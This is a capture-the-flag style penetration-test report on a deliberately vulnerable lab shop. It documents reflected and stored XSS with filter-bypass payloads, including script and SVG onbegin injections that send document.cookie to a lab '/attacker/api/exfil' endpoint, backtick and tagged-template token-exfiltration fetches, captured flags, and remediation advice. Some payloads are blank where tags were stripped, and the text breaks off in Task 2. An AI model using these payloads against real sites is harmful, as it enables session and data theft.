


# NexusShop XSS Assessment: Penetration Test Report

> **Reporting status:** Task 0 completed and verified. Tasks 1–7 have not been provided or assessed in this report and are marked as pending. This is a validated **Task 0 contribution** to the required eight-task final report, not a claim that all eight tasks have been tested.

## 1. Executive Summary

| Assessment attribute | Details |
|---|---|
| **Target** | `http://web0x0c.hbtn` (NexusShop) |
| **Assessment date** | 28 October 2026 |
| **Assessed scope** | Task 0, reflected XSS in the Basic, Filtered, and Advanced search endpoints; authorized lab C2 and tracking APIs |
| **Out-of-scope / not yet assessed** | Tasks 1–7; other application features and production infrastructure |
| **Overall result for Task 0** | **Vulnerable: High severity** |
| **Classification** | Reflected Cross-Site Scripting (XSS), **CWE-79** |

The NexusShop search feature reflects the `q` query parameter into a page heading as HTML without effective contextual output encoding. JavaScript execution was confirmed in **all three Task 0 stages**, including the stages that attempted to block `<script>` tags and common event handlers. Payloads issued successful HTTP requests to the designated lab C2 endpoint, and the Stage 3 tracking response returned the Task 0 flag. No actual session-cookie theft, credential harvesting, or keystroke capture was established by the available evidence; the confirmed impact is script execution and attacker-controlled data transmission from the application origin.

### Flags Captured

| Task | Flag | Vulnerability | Verification |
|---|---|---|---|
| **0** | `FLAG{5a492ce1de7b835a9e370f8a25a394cd}` | Reflected XSS in search (three stages) | Stage 3 `/search/api/track` returned HTTP `200` and JSON containing `"status":"tracked"` and this `ref` |
| 1–7 | **Not provided / not assessed** | Pending future task results | No flags claimed |

### Findings at a Glance

| Finding | Affected locations | Severity | Status |
|---|---|---|---|
| **NX-00: Reflected XSS through unsafely rendered search input** | `/search`, `/search/filtered`, `/search/advanced` | **High** | Confirmed in all three stages |

**Severity rationale:** A crafted search URL can cause script execution within the trusted NexusShop origin. This gives injected code access to the DOM, JavaScript-readable data, and same-origin browser requests under the victim's session. An actual account takeover was **not** demonstrated, so this report does not label the issue Critical or assert that a real session cookie was stolen.

## 2. Detailed Vulnerability Findings

## Task 0: Reflected XSS in Search

### Vulnerability Description

NexusShop embeds the user-controlled value of the `q` URL query parameter into the search-results heading. The observed DOM showed the input parsed as **HTML elements**, rather than rendered only as escaped text. As a result, a malicious search term can introduce executable browser markup into a page served from the NexusShop origin.

The Basic endpoint accepted direct `<script>` markup. The Filtered endpoint prevented the simplest script-tag technique but still accepted a JavaScript-bearing `onerror` attribute on an `` element. The Advanced endpoint allowed an SVG animation element with an `onbegin` handler despite blocking more common event handlers. These are three manifestations of the **same underlying boundary failure**: untrusted query-string input was allowed to cross into an executable HTML/SVG context. The testing establishes the behavior of the response and DOM; the exact internal rendering function or template engine was not inspected.

**Source → sink → execution:**

```text
Untrusted search URL / user-submitted search text
             |
             v
HTTP query parameter: q
             |
             v
Search heading rendered as HTML: <h2>... USER_INPUT ...</h2>
             |
             v
Browser parses injected <script>, , or <svg><animate onbegin>
             |
             v
JavaScript executes in the http://web0x0c.hbtn origin
             |
             +--> POST /attacker/api/exfil  (designated lab C2)
             +--> Reads DOM tracking-id and GET /search/api/track?t=...
```

### Location & Parameters

| Attribute | Details |
|---|---|
| **Base URL** | `http://web0x0c.hbtn` |
| **Stage 1** | `GET /search?q=...` |
| **Stage 2** | `GET /search/filtered?q=...` |
| **Stage 3** | `GET /search/advanced?q=...&min_price=&max_price=` |
| **Source parameter** | `q` |
| **Other Stage 3 parameters** | `min_price`, `max_price` were present but were **not** established as injection points |
| **Observed sink** | Search heading (`<h2>`) containing reflected, HTML-interpreted user input |
| **Type** | Reflected XSS (server-reflected output observed; not stored XSS) |
| **Severity** | **High** |
| **CWE** | CWE-79, Improper Neutralization of Input During Web Page Generation |

### Objective

Verify whether the search term is reflected without effective HTML encoding; obtain browser-side JavaScript execution across progressively restricted filters; demonstrate a request to the designated C2 endpoint; and submit the lab's hidden tracking token.

### Attack Vector

1. Open `/search?q=TESTINPUT123`. The marker appears inside the search heading, confirming a reflection point.
2. Submit `<strong id="xss-probe">HTML_PROBE</strong>`. Firefox Inspector shows a real `<strong>` element inside the heading, confirming **HTML parsing** rather than escaped-text rendering.
3. On **Stage 1**, inject a `<script>` payload and observe `XSS_STAGE1_EXECUTED` in the browser Console.
4. On **Stage 2**, open `/search/filtered` and inject ``. The failed image load generates an `error` event, and the Console shows `XSS_STAGE2_EXECUTED`. The correct filtered URL was checked independently, after an initial trial on the Basic route.
5. On **Stage 3**, open `/search/advanced` and inject SVG `<animate ... onbegin=...>`. The Console shows `XSS_STAGE3_EXECUTED`, demonstrating that an SVG-specific animation event bypassed the handler blacklist.
6. For each stage, run a stage-labelled payload that posts JSON to `POST /attacker/api/exfil`. The browser Network panel shows HTTP `200` responses and a success message from the lab collection endpoint.
7. After each page load, retrieve the hidden DOM element `#tracking-id` and submit its contents via `GET /search/api/track?t=...`. Stages 1 and 2 return `{"status":"tracked"}`; Stage 3 returns the same status **plus the flag**.

### Payload Used

The following payloads reproduce the relevant tests performed in the lab. The exfiltration destination is the **designated in-scope lab endpoint**, not a third-party service.

#### Stage 1: Basic search (`/search`)

**HTML parsing probe:**

```html
<strong id="xss-probe">HTML_PROBE</strong>
```

**JavaScript execution proof:**

```html
<script>console.log("XSS_STAGE1_EXECUTED")</script>
```

**Confirmed C2 request:**

```html
<script>
fetch("/attacker/api/exfil",{
  method:"POST",
  headers:{"Content-Type":"application/json"},
  body:JSON.stringify({
    type:"cookies",
    data:document.cookie||"no-readable-cookie",
    level:1,
    stage:1
  })
}).then(r=>console.log("EXFIL_STATUS:",r.status))
.catch(e=>console.error("EXFIL_ERROR:",e))
</script>
```

#### Stage 2: Filtered search (`/search/filtered`)

**JavaScript execution proof:**

```html

```

**Confirmed C2 request:**

```html
console.log("STAGE2_EXFIL_STATUS:",r.status)).catch(e=>console.error("STAGE2_EXFIL_ERROR:",e))'>
```

#### Stage 3: Advanced search (`/search/advanced`)

**JavaScript execution proof:**

```html
<svg><animate attributeName=x dur=1s onbegin='console.log("XSS_STAGE3_EXECUTED")'></animate></svg>
```

**Confirmed C2 request:**

```html
<svg><animate attributeName=x dur=1s onbegin='fetch("/attacker/api/exfil",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({type:"cookies",data:document.cookie||"no-readable-cookie",level:1,stage:3})}).then(r=>console.log("STAGE3_EXFIL_STATUS:",r.status)).catch(e=>console.error("STAGE3_EXFIL_ERROR:",e))'></animate></svg>
```

#### Tracking API verification (run on the loaded stage page)

The tracking step was performed from the browser Console, after the DOM was available. It was a **separate manual verification step**, not proof that the injected payload automatically submitted the tracking token.

```javascript
(async () => {
  const token = document.getElementById("tracking-id")?.textContent.trim();
  console.log("TOKEN_FOUND:", Boolean(token));
  if (!token) return;

  const response = await fetch(
    "/search/api/track?t=" + encodeURIComponent(token)
  );
  console.log("TRACK_STATUS:", response.status);
  console.log("TRACK_RESPONSE:", await response.text());
})().catch(console.error);
```

The `encodeURIComponent` call above protects the **query-string structure** of this tracking request. It is not the fix for HTML injection in the search heading; that requires output encoding or safe text insertion.

### Evidence

All referenced screenshots are included in the companion `evidence/` directory, using paths relative to this Markdown file.

| ID | Stage | Observed result | Screenshot |
|---|---|---|---|
| E01 | 1 | `TESTINPUT123` reflected into `<h2>` | [Stage 1: reflected marker](evidence/task0-stage1-reflection.png) |
| E02 | 1 | Browser created `<strong id="xss-probe">` inside `<h2>` | [Stage 1: HTML parsing](evidence/task0-stage1-html-parsing.png) |
| E03 | 1 | Console printed `XSS_STAGE1_EXECUTED` | [Stage 1: JavaScript execution](evidence/task0-stage1-js-execution.png) |
| E04 | 1 | `POST /attacker/api/exfil` returned `200` and success JSON | [Stage 1: C2 request](evidence/task0-stage1-c2-network.png) |
| E05 | 1 | Lab dashboard displayed **1 Cookies-category record** | [Stage 1: C2 dashboard](evidence/task0-stage1-c2-dashboard.png) |
| E06 | 1 | `GET /search/api/track` returned `200`, `{"status":"tracked"}` | [Stage 1: tracking](evidence/task0-stage1-tracking.png) |
| E07 | 2 | Correct `/search/filtered` route, DOM `onerror`, Console marker | [Stage 2: filter bypass](evidence/task0-stage2-js-execution.png) |
| E08 | 2 | Stage-labelled C2 POST returned `200`; submitted data was **`no-readable-cookie`** | [Stage 2: C2 request](evidence/task0-stage2-c2-network.png) |
| E09 | 2 | Token found; tracking returned `200`, `{"status":"tracked"}` | [Stage 2: tracking](evidence/task0-stage2-tracking.png) |
| E10 | 3 | Correct `/search/advanced` route, SVG `onbegin` in DOM, Console marker | [Stage 3: SVG bypass](evidence/task0-stage3-js-execution.png) |
| E11 | 3 | Stage-labelled C2 POST returned `200` with success JSON | [Stage 3: C2 request](evidence/task0-stage3-c2-network.png) |
| E12 | 3 | Tracking returned `200` and the flag in JSON field `ref` | [Stage 3: flag response](evidence/task0-stage3-flag.png) |

**Key response excerpts:**

```text
Stage 1: EXFIL_STATUS: 200
Stage 1: TRACK_RESPONSE: {"status":"tracked"}
Stage 2: STAGE2_EXFIL_STATUS: 200
Stage 2: Request JSON included "data":"no-readable-cookie"
Stage 2: STAGE2_TRACK_RESPONSE: {"status":"tracked"}
Stage 3: STAGE3_EXFIL_STATUS: 200
Stage 3: STAGE3_TRACK_STATUS: 200
Stage 3: STAGE3_TRACK_RESPONSE:
{"ref":"FLAG{5a492ce1de7b835a9e370f8a25a394cd}","status":"tracked"}
```

**Evidence limitation:** The C2 endpoint's success response confirms receipt of the submitted JSON. Stage 2 explicitly sent the fallback string `no-readable-cookie`; the shown Stage 1 and Stage 3 responses do not establish the contents of any real browser cookie. There is no documented theft of a usable session token or credentials, nor any documented keylogging. The code nonetheless shows that an attacker-controlled script can read any **non-HttpOnly** cookies available to that document.

**Example inline evidence images:**





### Real-World Impact

A malicious actor could place an encoded HTML/JavaScript payload in the `q` parameter and distribute a link bearing the legitimate NexusShop domain. If a victim follows that link, the injected JavaScript executes in the application's origin. Depending on the user's privileges and browser/application defenses, it could:

- Read JavaScript-accessible page contents, including exposed user data, hidden DOM tokens, and **non-HttpOnly** cookies.
- Send same-origin requests as the active user and potentially perform unauthorized account actions if application endpoints lack other protections.
- Replace page elements with a convincing login or payment prompt, creating a credential-phishing opportunity.
- Monitor form interactions or keystrokes while the injected page is open, if an attacker supplies additional code.
- Send accessible data to a collection endpoint, as demonstrated here with the authorized lab C2 API.

These are **plausible consequences**, not additional impacts claimed as tested. A successful `POST` containing `no-readable-cookie` is not evidence that a session cookie was stolen. `HttpOnly` prevents `document.cookie` access to protected cookies, but it does not by itself prevent injected code from making browser requests in the victim's session.

### Remediation

1. **Fix the search-heading sink (primary fix).** Render the search term as text instead of HTML. In browser-side code, prefer `heading.textContent = 'Showing results for: ' + query` over `heading.innerHTML = ...`. In a server-side Jinja2 template, use autoescaped `{{ q }}` in an HTML text context; never opt out with `{{ q | safe }}`. The implementation was not inspected, so these are framework-specific **examples**, not claims about NexusShop's stack.
2. **Apply context-appropriate output encoding.** Escape at least `&`, `<`, `>`, `"`, and `'` as appropriate for the insertion context. HTML body, attribute, JavaScript, CSS, and URL contexts have different encoding rules. Percent-encoding a URL parameter alone does **not** prevent XSS when its decoded value is later inserted as HTML.
3. **Avoid denylist filters.** Blocking only `<script>`, `onerror`, and `onload` leaves other executable constructs, including SVG event attributes such as `onbegin`. If a product requirement truly needs user-supplied HTML, sanitize it with a maintained allowlist-based HTML sanitizer and exclude executable attributes and SVG/MathML constructs unless specifically necessary.
4. **Add defense-in-depth Content Security Policy.** Deploy a restrictive `script-src` policy using per-response nonces or hashes for approved scripts, without `unsafe-inline`; assess and restrict permitted destinations with `connect-src`. Validate the policy in report-only mode first and then enforce it. CSP reduces exploitability but does not replace safe HTML rendering.
5. **Strengthen session and data protections.** Use `HttpOnly`, `Secure` (under HTTPS), and appropriate `SameSite` flags for session cookies. Avoid storing secrets in script-readable DOM/JavaScript where unnecessary; enforce authorization and CSRF defenses on state-changing endpoints.
6. **Regression-test each route.** Automated tests should submit harmless representatives of direct scripts, broken-image handlers, and SVG animation handlers into `/search`, `/search/filtered`, and `/search/advanced`; then assert that no element/event handler is created and that user input appears only as text.
7. **Verify the fix in the browser.** Confirm `<strong id="xss-probe">HTML_PROBE</strong>` appears literally in the heading, rather than becoming a DOM node; confirm the three JavaScript proof markers do **not** print. Review actual response HTML, the live DOM, and CSP violations.

---

### Tasks 1–7: Pending Findings

The final course deliverable requires documentation for **Tasks 0–7**. Only Task 0 exploitation evidence and its flag have been supplied for this report. The following entries are intentionally unfilled, to avoid attributing untested vulnerabilities or fabricated flags to NexusShop. For each subsequent task, replace the placeholder with the same fields used above: *Vulnerability Description, Location & Parameters, Objective, Attack Vector, Payload Used, Evidence, Real-World Impact, and Remediation*.

| Task | Vulnerability description | Location / parameters | Attack vector and payload | Evidence / C2 | Impact | Remediation | Flag |
|---|---|---|---|---|---|---|---|
| **1** | Not assessed | Pending | Pending | Pending | Pending | Pending | Not captured in supplied evidence |
| **2** | Not assessed | Pending | Pending | Pending | Pending | Pending | Not captured in supplied evidence |
| **3** | Not assessed | Pending | Pending | Pending | Pending | Pending | Not captured in supplied evidence |
| **4** | Not assessed | Pending | Pending | Pending | Pending | Pending | Not captured in supplied evidence |
| **5** | Not assessed | Pending | Pending | Pending | Pending | Pending | Not captured in supplied evidence |
| **6** | Not assessed | Pending | Pending | Pending | Pending | Pending | Not captured in supplied evidence |
| **7** | Not assessed | Pending | Pending | Pending | Pending | Pending | Not captured in supplied evidence |

## 3. Remediation Summary

| Priority | Recommendation | Applies to | Rationale |
|---|---|---|---|
| **P0 - Immediate** | Treat `q` as text in the search heading; enable contextual autoescaping and remove any unsafe HTML rendering | All three search routes | Eliminates the demonstrated source-to-sink execution path |
| **P0 - Immediate** | Stop relying on tag or event-handler blacklists as the XSS control | Filtered and Advanced routes | SVG `onbegin` and `` bypass incomplete denylists |
| **P1 - High** | Implement a restrictive, enforced CSP with nonce/hash-based scripts and restricted `connect-src` | Application-wide | Adds a second line of defense and limits outbound connections |
| **P1 - High** | Harden session cookies with `HttpOnly`, `Secure`, and suitable `SameSite` | Authentication/session handling | Limits cookie exposure and some cross-site request risks; does not cure XSS |
| **P1 - High** | Enforce server-side authorization and CSRF protections for sensitive operations | Authenticated endpoints | Prevents some unauthorized actions even if browser content is compromised |
| **P2 - Medium** | Add automated XSS regression tests for the three observed classes of payload | CI/CD pipeline | Detects future regressions in HTML, event-handler, and SVG contexts |
| **P2 - Medium** | Adopt a vetted HTML sanitizer only for features that genuinely require rich HTML | Any future rich-text input | Safely constrains allowed tags/attributes instead of guessing bad strings |

**Recommended acceptance criteria:** Across all three routes, the `q` value must be visible as inert text; injected tags and event handlers must not become executable DOM; regression tests must pass; and a browser retest must confirm no XSS proof marker or C2 request is triggered by the test payloads.

## 4. Conclusion

**Assessment status:** Task 0 is **completed**, and its reflected XSS vulnerability is **confirmed and not remediated in the assessed lab**. Script execution, successful requests to the in-scope C2 API, and token tracking were observed across Basic, Filtered, and Advanced search stages. The Stage 3 tracking response yielded the exact Task 0 flag, which was submitted to the repository according to the assessment record.

The application is an **intentionally vulnerable educational lab**. The exercise demonstrates why reflected input must be encoded for its eventual output context, why blocking a short list of dangerous tags and event handlers does not solve XSS, and why impact reporting must distinguish confirmed data transfer from unproven cookie theft or account compromise.

**Final submission note:** This Markdown file is complete **for Task 0**. It will not satisfy the course's complete Tasks 0–7 requirement until evidence-backed findings for Tasks 1–7 are added. Keep `SECURITY_REPORT.md` beside the included `evidence/` folder under `web_application_security/websec_0x0C/` so the relative screenshot links resolve.


# Task 1 - Penetration Test Report — Reflected XSS in JavaScript Context (NexusShop)

| Field | Value |
|-------|-------|
| **Target** | NexusShop (`http://web0x0c.hbtn`) |
| **Component** | Product sort endpoint (`/products/sort`, `/dynamic`, `/advanced`) |
| **Vulnerability class** | CWE-79 — Improper Neutralization of Input During Web Page Generation (Cross-Site Scripting) |
| **Tester** | Penetration test (authorized lab engagement) |
| **Flag captured** | `FLAG{b4797b8faa98c8b5fca7634fab070de7}` |

---

## Executive Summary

The NexusShop product-sorting feature reflects the user-controlled `by` parameter directly into an inline `<script>` block, inside a single-quoted JavaScript string (`var currentSort = '<INPUT>';`). Because the value lands in a **JavaScript-string context** rather than an HTML context, the application's HTML-oriented defenses (encoding `<`, `>`) do not neutralize it. An attacker who controls `by` can break out of the string and execute arbitrary JavaScript in the victim's session.

Three stages of the same endpoint demonstrate increasingly strict input filtering, illustrating the central lesson: **output encoding must match the context the data lands in.** Encoding appropriate for HTML (entity-encoding angle brackets) provides no protection for a value placed inside a JavaScript string, where the significant character is the string delimiter, not the angle bracket.

Impact was demonstrated by exfiltrating the per-session `tracking-id` token to the application's own tracking endpoint (`/products/sort/api/track`), which the server validates and, on success, releases the flag — modelling theft of a session-bound secret via XSS.

**Business impact:** session/credential theft, account takeover, fraudulent transactions on behalf of victims, and reputational damage. Severity: **High** (reflected XSS requiring victim interaction, but no authentication needed to craft the payload and the sink executes in authenticated context).

---

## Stage 1: Reflected XSS — JavaScript String Context (Stage 1 "Standard")

### Vulnerability Description

The `by` parameter is reflected, without context-appropriate encoding, directly inside a single-quoted JavaScript string literal within an inline `<script>` element. The developer applies HTML entity encoding to `<`, `>`, `'` and `"`, which is the correct defense for an **HTML** context but is ineffective reasoning about the actual sink. The vulnerability exists because the application chose an encoding scheme based on where it *assumed* the data would appear (HTML body) rather than where it *actually* appears (a JavaScript string).

Why it exists: the data flows from an HTTP GET parameter straight into server-rendered inline script. No JavaScript-string escaping (e.g. `\x27` for quotes, `\n` for newlines) is applied, and no Content-Security-Policy is present to contain inline execution.

### Location & Parameters
| Attribute | Details |
|-----------|---------|
| **URL** | `/products/sort?by=` |
| **Parameter/Field** | `by` |
| **Type** | Reflected XSS (JavaScript-string context) |
| **Severity** | High |

### Attack Vector

1. Visit `/products/sort?by=TESTINPUT123` and locate the marker in the inline script: `var currentSort = 'TESTINPUT123';`.
2. Identify the surrounding syntax: the value is inside a **single-quoted** JS string; the characters immediately after are `';`.
3. Close the string with `'`, inject a statement, and comment out the original trailing `';` with `//`.
4. Confirm execution in the Console; replace the harmless test with an exfiltration payload targeting the `tracking-id` token.

### Payload Used

```
';fetch('/products/sort/api/track?t='+document.getElementById('tracking-id').innerText);//
```

Resulting rendered script:

```javascript
var currentSort = '';fetch('/products/sort/api/track?t='+document.getElementById('tracking-id').innerText);//';
```

> Note: In this lab build, Stage 1's filter was observed to HTML-entity-encode the quote (`'` → `&#39;`), so this canonical pattern illustrates the intended technique for an unfiltered JS-string sink. Stage 1 and Stage 2 are preparatory (they populate the C2 loot feed); the flag is awarded at Stage 3 (see Task 3).

### Evidence

- DevTools → Sources shows the injected payload inside the `<script>` block.
- Console: no syntax errors; the injected statement executes.
- Network: a `GET /products/sort/api/track?t=<token>` request is issued by the injected code.

### Real-World Impact

Arbitrary JavaScript execution in the victim's authenticated session: theft of session tokens and cookies, silent requests performed as the victim (CSRF-style actions), credential harvesting via injected fake login forms, and keylogging.

### Remediation

- Apply **JavaScript-string output encoding** to any value placed inside a script string (escape `'`, `"`, `\`, `/`, newlines, and `<`/`>` as `\xHH` / `\uXXXX`), not HTML entity encoding.
- Preferably, do **not** reflect user input into inline scripts at all; pass data via `JSON.parse(...)` of a server-serialized, properly escaped JSON string, or via a `data-` attribute read with `.dataset`.
- Deploy a Content-Security-Policy with nonces and without `unsafe-inline` to contain any residual injection.

---

## Stage 2: Reflected XSS — Quote-Stripping Filter (Stage 2 "Dynamic")

### Vulnerability Description

The `/dynamic` variant reflects `by` into the same JavaScript-string sink but applies a filter that **strips quote characters** (`'` removed entirely) rather than encoding them. Stripping is a blocklist-style defense and is weaker than context-aware encoding: it attempts to remove "dangerous" characters instead of safely representing them. This stage demonstrates why relying on character removal is fragile — the surrounding code structure (a developer-authored opening and closing quote) can still be manipulated with characters the filter ignores (backslash, newline), and the defense can be defeated where a second evaluation or a re-parse sink exists.

### Location & Parameters
| Attribute | Details |
|-----------|---------|
| **URL** | `/products/sort/dynamic?by=` |
| **Parameter/Field** | `by` (note: `sort` / `order` do **not** reach the vulnerable variable) |
| **Type** | Reflected XSS (JavaScript-string context, quote-stripping filter) |
| **Severity** | High |

### Attack Vector

1. Visit `/products/sort/dynamic?by=TESTINPUT123` and confirm reflection into `var currentSort = '...'`.
2. Observe that literal `'` characters are stripped from the output (`';x` → `;x`).
3. Study filter-evasion options that avoid a literal quote: backslash manipulation (`\`), newline injection (`%0A`), and Unicode/hex escapes (`\u0027`, `\x27`).
4. Confirm execution in the Console and the exfiltration request in the Network tab.

### Payload Used

```
;fetch(`/products/sort/api/track?t=${document.getElementById(`tracking-id`).innerText}`)//
```

> Uses **backtick template literals** instead of `'`/`"` so the payload contains no character the quote-stripper removes. The backtick survives the filter; `${...}` interpolates the token into the URL.

### Evidence

- Sources shows the stripped value and the surviving backtick-based payload.
- Console: parser errors during probing confirm the string boundary is being manipulated ("you are close"); a clean run fires the request.
- C2 loot feed (`/attacker`) records the exfiltration.

### Real-World Impact
Identical to Stage 1. Additionally demonstrates that **input filtering by character removal is insufficient** — attackers substitute equivalent representations (template literals, escape sequences) the blocklist did not anticipate.

### Remediation

- Replace character stripping with **context-aware output encoding** (JS-string escaping).
- Do not reflect input into inline scripts; serialize via safe JSON.
- Add CSP (nonce-based, no `unsafe-inline`).

---

## Stage 3: Reflected XSS — Strict Filter & Token Exfiltration (Stage 3 "Advanced") — FLAG

### Vulnerability Description

The `/advanced` variant applies the strictest filter: it HTML-encodes raw `<` and `>`, and strips `'`, `"`, `(` and `)`. User input is reflected in two `href="..."` attributes (as URL text) and in the inline-script `var currentSort` string. Despite the strict filter, the application still exposes a per-session secret — the `tracking-id` token in a hidden `<div>` — and an endpoint (`/products/sort/api/track`) that validates and records that token. The core flaw remains CWE-79: untrusted input reaches a script context, and sensitive session-bound data is readable by any script executing on the page.

The flag is released by the server when the valid, current `tracking-id` is submitted to the tracking endpoint within the same session — modelling the end-to-end impact of XSS: read a session secret, exfiltrate it, and have the server confirm the compromise.

### Location & Parameters
| Attribute | Details |
|-----------|---------|
| **URL** | `/products/sort/advanced?by=` and `/products/sort/api/track?t=` |
| **Parameter/Field** | `by`, `t` |
| **Type** | Reflected XSS (strict filter) + session-token exfiltration |
| **Severity** | High / Critical |

### Attack Vector

1. Visit `/products/sort/advanced?by=TESTINPUT123` and map all reflections (two `href` attributes + inline-script string).
2. Characterize the filter: raw `<`/`>` → `&lt;`/`&gt;`; `'`, `"`, `(`, `)` stripped; backticks, `${}`, `[]`, `.`, `+`, `=` survive; fullwidth `＜`/`＞` (U+FF1C/U+FF1E) pass the filter and normalize toward `<`/`>` in some sinks (Unicode-normalization evasion).
3. Read the session-bound `tracking-id` from the hidden `<div id="tracking-id">` (via DevTools, or `curl` with the session cookie).
4. Submit the token to the tracking endpoint to demonstrate exfiltration and capture the flag.

### Payload Used

Token-exfiltration intent (parens-free / quote-free, using tagged templates):

```
fetch`/products/sort/api/track?t=${document.all[`tracking-id`].innerText}`
```

Equivalent command-line proof (same-session token read + submission):

```bash
COOKIE='session=<YOUR_SESSION_COOKIE>'
TID=$(curl -s 'http://web0x0c.hbtn/products/sort/advanced?by=name' -H "Cookie: $COOKIE" \
      | grep -oP '(?<=id="tracking-id"[^>]*>)[^<]+')
curl -s "http://web0x0c.hbtn/products/sort/api/track?t=$TID" -H "Cookie: $COOKIE"
```

### Evidence

Server response confirming capture:

```json
{"ref":"FLAG{b4797b8faa98c8b5fca7634fab070de7}","status":"tracked"}
```

- Hidden token observed in DOM: `<div id="tracking-id" style="display:none">_N-JTXcFEOIkby45C19ukQ</div>`.
- Session cookie contains the server-side scoreboard: decoded payload `{"flags":[...],"level_3_stage":3,"session_id":"..."}`.
- No `Content-Security-Policy` response header present — inline execution is unrestricted.

### Real-World Impact

An attacker can steal session-bound secrets (CSRF tokens, session identifiers, tracking tokens) even against a filter that blocks the common breakout characters, by (a) exploiting context mismatches and alternate character representations, and (b) reading secrets the page itself exposes to script. Consequences include full session hijacking, account takeover, and fraudulent actions. The absence of CSP means a single successful injection yields unrestricted script execution.

### Remediation

- **Context-aware output encoding** everywhere the value is reflected: JS-string escaping in the script sink; URL-encoding plus attribute-encoding in `href` values.
- **Normalize then validate**: apply Unicode normalization (NFKC) *before* filtering so look-alike characters (fullwidth `＜`) cannot bypass checks; prefer allowlist validation (`by` ∈ {name, price, rating}) over blocklist stripping.
- **Stop exposing session secrets to the DOM**: the `tracking-id` should be an `HttpOnly` cookie or server-side state, never readable JavaScript text.
- **Deploy CSP** with per-response nonces and no `unsafe-inline`; this alone would have prevented the injected inline execution.
- Bind tokens to additional server-side checks (origin, referer, short expiry) to limit replay.

---

## Root-Cause Summary

| Principle | Why it matters here |
|-----------|---------------------|
| Output encoding is **context-sensitive** | Encoding `<`/`>` protects HTML, not JS strings; the delimiter (`'`) is what matters in a string sink. |
| Input validation ≠ output encoding | Stripping/encoding at input (Stages 2–3) failed; encoding must happen at the **output** sink, matched to its grammar. |
| Blocklists are fragile | Character removal was bypassed via template literals, escapes, and Unicode normalization. Allowlists are robust. |
| Defense in depth | No CSP meant one injection = full execution. CSP with nonces contains residual bugs. |
| Don't expose secrets to script | A session token in a readable DOM node is exfiltratable by any XSS. |


## Task 2: Stored XSS — Product Reviews (Username Field)

### Vulnerability Description

NexusShop's product review feature persists user-submitted reviews and renders them back to every visitor of the product page without context-appropriate output encoding. Across the three stages, the review **body** is progressively protected (unfiltered → `<script>` stripped), but the review **author name** field remains unsanitized in its text-content reflection — the classic "forgotten field." Because the stored value is rendered with a `|safe`-style raw output, any HTML an attacker submits becomes live DOM, and an element with an auto-firing event handler (``) executes JavaScript in the browser of **every** user who loads the page, with no interaction required.

This is a **stored (persistent)** XSS: the payload is injected once into the server's database and executes repeatedly for all subsequent viewers until the data is cleaned. It exists because the application trusts the stored content at render time — treating input validation at submission as a substitute for output encoding at display — and because the developer sanitized the obvious `review` field while overlooking the `name` field, which is reflected both inside a `title="..."` attribute (safely encoded) and as the author's display text (unencoded).

### Location & Parameters
| Attribute | Details |
|-----------|---------|
| **URL** | `/product/1/reviews` (Stage 1), `/product/1/reviews/verified` (Stage 2), `/product/1/reviews/all` (Stage 3 — flag) |
| **Parameter/Field** | `name` (author) — primary sink for Stage 3; `review` (body) for Stages 1–2 |
| **Type** | Stored / Persistent XSS |
| **Severity** | Critical |

### Attack Vector

1. Submit a benign review and locate where each field reflects. The `review` body renders in `<div class="text-zinc-300">…</div>`; the `name` renders as `<span class="font-medium" title="NAME">NAME</span>` — reflected in both an attribute and as text.
2. Prove HTML injection: a `<b>` tag in the body renders bold → raw HTML sink confirmed (Stage 1, unfiltered).
3. Escalate to automatic JS execution with an auto-firing element: `` fires on load without user interaction. Stage 2 strips `<script>` but leaves event handlers untouched, so `` still executes.
